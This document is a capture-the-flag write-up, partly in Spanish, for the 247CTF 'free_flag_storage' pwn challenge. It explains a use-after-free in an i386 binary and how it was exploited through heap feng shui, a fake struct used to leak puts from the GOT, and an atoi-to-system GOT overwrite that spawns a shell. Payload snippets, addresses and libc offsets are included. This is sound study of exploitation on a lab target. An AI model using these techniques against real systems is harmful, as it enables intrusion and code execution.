

# free_flag_storage - 247CTF PWN Challenge

## Challenge Info
- **Name**: free_flag_storage
- **Category**: PWN
- **Remote**: `tcp://de22d451a7a11cba.247ctf.com:50413`
- **Description**: "We created a custom application to store challenge flags. Can you abuse the implementation to access the flag stored on the application server?"

## Flag
```
247CTF{a3fa2XXXXXXXXXXXXXXXXa0130fa3aec}
```

---

## Binary Analysis

### Protections
```
Arch:       i386-32-little
RELRO:      Partial RELRO    <- GOT is writable!
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x8048000) <- Fixed addresses
```

### Struct Layout
El programa maneja "flags" con la siguiente estructura (16 bytes):
```c
struct flag {
    uint32_t length;      // offset 0x00
    char*    value_ptr;   // offset 0x04  <- pointer to value buffer
    uint32_t challenge_id;// offset 0x08
    uint32_t score;       // offset 0x0c
};
```

### Key Addresses
```
flags array:  0x804b04c  (max 3 flags)
puts@GOT:     0x804b028
atoi@GOT:     0x804b034
```

### Commands
- `add` - Crea un nuevo flag (malloc struct + malloc value)
- `edit` - Edita un flag existente (escribe a value_ptr)
- `delete` - Elimina un flag (free value, free struct)
- `print` - Muestra todos los flags

---

## Vulnerability: Use-After-Free

La función `delete()` libera la memoria pero **NO pone el puntero a NULL**:

```c
void delete(int idx) {
    free(flags[idx]->value);   // Free value buffer
    free(flags[idx]);          // Free struct
    // BUG: flags[idx] NOT set to NULL!
    count--;
}
```

Esto permite:
1. Acceder a memoria liberada a través del puntero dangling
2. Crear overlaps entre diferentes allocations

---

## Exploit Strategy

### 1. Heap Feng Shui

**Objetivo**: Hacer que el `value` buffer de un nuevo flag se aloje en la ubicación de un `struct` anterior.

```
Paso 1: Crear 3 flags con values de 8 bytes
- flag0: struct0 (24-byte chunk), value0 (16-byte chunk)
- flag1: struct1 (24-byte chunk), value1 (16-byte chunk)
- flag2: struct2 (24-byte chunk), value2 (16-byte chunk)

Paso 2: Delete flag0 y flag1
- fastbin-24: struct1 -> struct0
- fastbin-16: value1 -> value0
- flags[0] y flags[1] son dangling pointers!

Paso 3: Add nuevo flag con value de 16 bytes (= 24-byte chunk)
- malloc(struct) = struct1 (de fastbin-24)
- malloc(value)  = struct0 (de fastbin-24!)
- Ahora: value3 está en la ubicación de struct0
- Y flags[0] aún apunta a struct0 = value3!
```

### 2. Leak libc

Escribimos un **fake struct** como el value del nuevo flag:
```python
fake_struct = p32(5) + p32(puts_got) + p32(0xcafe) + p32(0xbabe)
#             length   value_ptr      cid           score
```

Cuando `print` lee `flags[0]`:
- Lee nuestro fake struct (porque flags[0] -> struct0 = value3)
- `value_ptr = puts@GOT`
- Imprime el contenido de puts@GOT = dirección de puts en libc

### 3. GOT Overwrite

Actualizamos el fake struct para apuntar a `atoi@GOT`:
```python
edit(1, p32(5) + p32(atoi_got) + p32(0xdead) + p32(0xbeef), 16)
```

Luego `edit(0)` escribe a `atoi@GOT`:
```python
p.send(p32(system_addr) + b'X')  # 5 bytes
```

### 4. Shell

Después del overwrite, `atoi@GOT = system`. Cuando el programa pide el nuevo `challenge_id`:
```python
p.sendline(b'sh')  # atoi("sh") = system("sh") -> SHELL!
```

---

## El Bug Crítico: NULL Byte Corruption

### El Problema

Durante el debugging, el exploit fallaba con:
```
SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0xdc5430}
```

La dirección `0xdc5430` son solo 3 bytes de `0xf7dc5430` - faltaba el MSB!

### Causa Root

En el disassembly de `edit()`:
```asm
8048b22:  mov    -0x14(%ebp),%edx    ; bytes_read
8048b25:  sub    $0x1,%edx           ; bytes_read - 1
8048b28:  add    %edx,%eax           ; value_ptr + bytes_read - 1
8048b2a:  movb   $0x0,(%eax)         ; WRITE NULL BYTE!
```

El programa escribe un **NULL byte al final del valor** para null-terminar el string:
```
position = value_ptr + bytes_read - 1
*position = 0x00
```

Con `length=4` y `value_ptr=atoi@GOT`:
- Lee 4 bytes de system address
- Escribe NULL en `atoi@GOT + 4 - 1 = atoi@GOT + 3`
- **¡Corrompe el MSB de nuestra dirección!**

`0xf7dc5430` → `0x00dc5430` → SIGSEGV

### La Solución

Usar `length=5` en lugar de `length=4`:
```python
fake_struct = p32(5) + p32(atoi_got) + ...
#                 ↑ 5 bytes!
```

Ahora:
- Lee 5 bytes (4 de system + 1 dummy)
- Escribe NULL en `atoi@GOT + 5 - 1 = atoi@GOT + 4`
- El NULL va **después** de los 4 bytes importantes
- `atoi@GOT` mantiene `0xf7dc5430` intacto!

---

## Libc Offsets

### Local (testing)
```
/lib/i386-linux-gnu/libc.so.6
puts:   0x78140
system: 0x50430
```

### Remote (Ubuntu 18.04 i386)
```
puts:   0x67360
system: 0x3cd10
```

---

## Flag Captured



---

## Exploit Files

- `free_flag_storage_solve.py` - Exploit final funcional
- `free_flag_storage` - Binary del challenge

## Usage

```bash
# Local test
python3 free_flag_storage_solve.py

# Remote exploit
python3 free_flag_storage_solve.py REMOTE
```

---

## Timeline de Debug

1. [OK] Confirmado UAF: despues de delete+add, ambos flags muestran mismo contenido
2. [OK] Leak funciona: leemos puts@libc correctamente
3. [OK] Fake struct funciona: cid=0xdead confirma que se lee nuestro struct
4. [FAIL] Shell no spawneaba: SIGSEGV con direccion truncada
5. [DEBUG] strace revelo: `read(0, "0T\334\367", 4) = 4` - lectura correcta
6. [DEBUG] Pero SIGSEGV en `0xdc5430` - solo 3 bytes
7. [INFO] Disasm revelo: `movb $0x0,(%eax)` escribe NULL al final
8. [OK] Fix: length=5 evita corrupcion del MSB
9. [DONE] Shell funciona!

---

## Aprendizaje del reto

1. **UAF clásico**: delete sin NULL permite acceso a memoria liberada
2. **Heap feng shui**: Controlar qué memoria se reutiliza
3. **Arbitrary read/write**: Fake struct con value_ptr controlado
4. **GOT overwrite**: Partial RELRO permite sobrescribir GOT
5. **Off-by-one NULL**: Siempre considerar null-termination en exploits
